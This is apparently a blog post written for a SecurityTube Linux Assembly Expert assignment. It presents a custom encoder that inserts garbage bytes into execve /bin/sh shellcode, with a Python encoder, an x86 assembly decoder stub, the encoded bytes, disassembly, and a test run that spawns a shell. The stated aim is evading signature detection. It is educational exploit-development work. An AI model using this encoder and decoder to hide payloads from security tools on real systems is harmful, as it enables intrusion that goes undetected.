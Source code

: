 ```yaml
---
title:  "[SLAE 4] Custom Encoding Scheme"
---
```


![Logo](/assets/images/tux-root.png)

## Custom encoding scheme
For the 4th assignment of [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/), I've made a custom encoding scheme, with the same purpose as the insertion encoder: *__avoid signature detection by inserting garbage bytes into the shellcode__*.

 The encoding scheme is as follows: we start from a working shellcode and insert garbage blocks, containing a random garbage byte and the offset to the next garbage block.
The distance between the garbage blocks is a random value between 2 modifiable limits. In this way we can control the final length of the shellcode and the amount of garbage inserted:

The encoded shellcode will look like this:
---------------------------------------------------------
| n0 | . . .| b1 | n1 | . . . . .| b2 | n2 | . . . |END |
---------------------------------------------------------

ni  - next garbage byte position
bi  - garbage byte 
END - END of the shellcode marker

 The encoding is done in a short python script:
?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
#!/usr/bin/python
'''
    Python Insertion Encoder 
  
'''
 
import random
 
# Execve-stack shellcode - execve(/bin/sh,..)
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
 
encoded = ""
 
idx = 1
 
# Control  the frequency of garbage through a displacement
MIN_DEP = 3     # min number of shellcode bytes after which to inject garbage
MAX_DEP = 4     # max ...
dep = random.randint(MIN_DEP, MAX_DEP)
n = idx + dep
encoded += '\\x%02x' % n
END = "\\xf0\\x0d"
 
for x in bytearray(shellcode) :
    if idx == n: 
        # We have reached an insertion point
        dep = random.randint(MIN_DEP, MAX_DEP)
        n = idx + dep
 
        encoded += '\\x%02x' % random.randint(1,255)
        encoded += '\\x%02x' % n
        idx += 2
     
    # Add a shellcode byte
    encoded += '\\x%02x' % x
    idx += 1
 
encoded += END
 
print encoded
# Print in nasm friendly form
print encoded.replace("\\x", ",0x")[1:]
 
print 'Initial len: %d, encoded len: %d' % (len(shellcode), 
    len(encoded)/4)
The decoding is done in the assembly shellcode: 
global _start   

section .text
_start:

 jmp short call_shellcode

decoder:
 pop esi                     ; beginning of the encoded shellcode
 lea edi, [esi]              ; shellcode decoded in place. Edi - dest pointer
 xor eax, eax            
 mov al, byte [esi]          ; position of next garbage byte
 xor ebx, ebx
    push 1                      ; index into the shellcode
    pop ecx

decode: 
    cmp ecx, eax
    jnz short shellcode_byte    ; shellcode byte found 
    add ecx, 2                  ; garbage byte found. Advance 2 bytes
    mov al, byte [esi + eax + 1]; position of next garbage byte    
shellcode_byte:                 ; byte part of real shellcode
 mov bl, byte [esi + ecx]
 mov byte [edi], bl
 inc edi                     ; advance destination
 inc ecx                     ; advance source
 cmp byte [esi + ecx], 0xf0  ; check for END marker
    jnz decode
    cmp byte [esi + ecx + 1], 0x0d
    jnz decode
    jmp esi                     ; shellcode decoded in-place. Jump to it



call_shellcode:

 call decoder
 EncodedShellcode: db 0x04,0x31,0xc0,0x50,0x06,0x08,0x68,0x2f,0x15,0x0b,0x2f,0x12,0x0e,0x73,0x85,0x11,0x68,0x4e,0x14,0x68,0x96,0x18,0x2f,0x62,0xd8,0x1c,0x69,0x6e,0xf9,0x20,0x89,0xe3,0xa9,0x23,0x50,0x6d,0x26,0x89,0x60,0x29,0xe2,0x0e,0x2d,0x53,0x89,0x3b,0x30,0xe1,0xaa,0x34,0xb0,0x0b,0x55,0x37,0xcd,0xe2,0x3b,0x80,0xf0,0x0d

And now to test this:
- encode the execve-stack shellcode using the python script
- disassemble and examine the encoded shellcode
- define the shellcode bytes at the end of the assembly decoder
- assemble
- test using a C program which executes the payload 
?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
$ ./custom-encoder.py 
\x05\x31\xc0\x50\x68\xb1\x08\x2f\x58\x0c\x2f\x73\x71\x10\x68\x68\x88\x14\x2f\x62\x42\x17\x69\x6a\x1a\x6e\xba\x1d\x89\xf5\x21\xe3\x50\xe0\x25\x89\xe2\xaf\x29\x53\x89\x83\x2d\xe1\xb0\x33\x30\x0b\x1a\x33\xcd\x66\x36\x80\xf0\x0d
0x05,0x31,0xc0,0x50,0x68,0xb1,0x08,0x2f,0x58,0x0c,0x2f,0x73,0x71,0x10,0x68,0x68,0x88,0x14,0x2f,0x62,0x42,0x17,0x69,0x6a,0x1a,0x6e,0xba,0x1d,0x89,0xf5,0x21,0xe3,0x50,0xe0,0x25,0x89,0xe2,0xaf,0x29,0x53,0x89,0x83,0x2d,0xe1,0xb0,0x33,0x30,0x0b,0x1a,0x33,0xcd,0x66,0x36,0x80,0xf0,0x0d
Initial len: 25, encoded len: 56
$ echo -ne "\x05\x31\xc0\x50\x68\xb1\x08\x2f\x58\x0c\x2f\x73\x71\x10\x68\x68\x88\x14\x2f\x62\x42\x17\x69\x6a\x1a\x6e\xba\x1d\x89\xf5\x21\xe3\x50\xe0\x25\x89\xe2\xaf\x29\x53\x89\x83\x2d\xe1\xb0\x33\x30\x0b\x1a\x33\xcd\x66\x36\x80\xf0\x0d" | ndisasm -b 32 -
00000000  0531C05068        add eax,0x6850c031
00000005  B108              mov cl,0x8
00000007  2F                das
00000008  58                pop eax
00000009  0C2F              or al,0x2f
0000000B  7371              jnc 0x7e
0000000D  106868            adc [eax+0x68],ch
00000010  88142F            mov [edi+ebp],dl
00000013  624217            bound eax,[edx+0x17]
00000016  696A1A6EBA1D89    imul ebp,[edx+0x1a],dword 0x891dba6e
0000001D  F5                cmc
0000001E  21E3              and ebx,esp
00000020  50                push eax
00000021  E025              loopne 0x48
00000023  89E2              mov edx,esp
00000025  AF                scasd
00000026  295389            sub [ebx-0x77],edx
00000029  832DE1B033300B    sub dword [dword 0x3033b0e1],byte +0xb
00000030  1A33              sbb dh,[ebx]
00000032  CD66              int 0x66
00000034  3680F00D          ss xor al,0xd
$ ./compile.sh 
  [+] Assembling egghunter
  [+] Linking egghunter
\xeb\x2d\x5e\x8d\x3e\x31\xc0\x8a\x06\x31\xdb\x6a\x01\x59\x39\xc1\x75\x07\x83\xc1\x02\x8a\x44\x06\x01\x8a\x1c\x0e\x88\x1f\x47\x41\x80\x3c\x0e\xf0\x75\xe8\x80\x7c\x0e\x01\x0d\x75\xe1\xff\xe6\xe8\xce\xff\xff\xff\x04\x31\xc0\x50\x06\x08\x68\x2f\x15\x0b\x2f\x12\x0e\x73\x85\x11\x68\x4e\x14\x68\x96\x18\x2f\x62\xd8\x1c\x69\x6e\xf9\x20\x89\xe3\xa9\x23\x50\x6d\x26\x89\x60\x29\xe2\x0e\x2d\x53\x89\x3b\x30\xe1\xaa\x34\xb0\x0b\x55\x37\xcd\xe2\x3b\x80\xf0\x0d
  [+] House cleaning
  [+] Done!
$ ./shellcode
Shellcode Length:  112 bytes
$ whoami
liv
$

The complete source files and scripts mentioned in this post can be found in the Git repository:
SLAE

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:        
www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/    
Student ID: SLAE- 449     
Posted by Liviu at 6:49 PM     
Email This
BlogThis!
Share to Twitter
Share to Facebook
Share to Pinterest
